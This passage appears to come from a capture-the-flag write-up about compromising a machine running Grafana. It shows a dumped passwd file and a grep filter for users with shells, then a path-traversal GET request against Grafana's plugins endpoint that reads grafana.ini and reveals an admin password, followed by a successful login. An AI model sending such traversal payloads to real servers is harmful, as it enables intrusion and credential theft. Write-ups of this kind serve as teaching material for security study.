 ```
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false

```

Let's filter out users without a valid shell, which may be useful for SSH access later:

```bash
$grep -ivE "/bin/false|/usr/sbin/nologin" passwd.txt
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
developer:x:1000:1000:developer:/home/developer:/bin/bash
consul:x:997:997::/home/con

```

Reading through Grafana documentation, seeing where the config file is usually stored, and running a `GET /public/plugins/alertGroups/../../../../../../../../etc/grafana/grafana.ini` provides us the admin password. Fun times:

```
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

  And we can login to the Grafana web interface successfully:
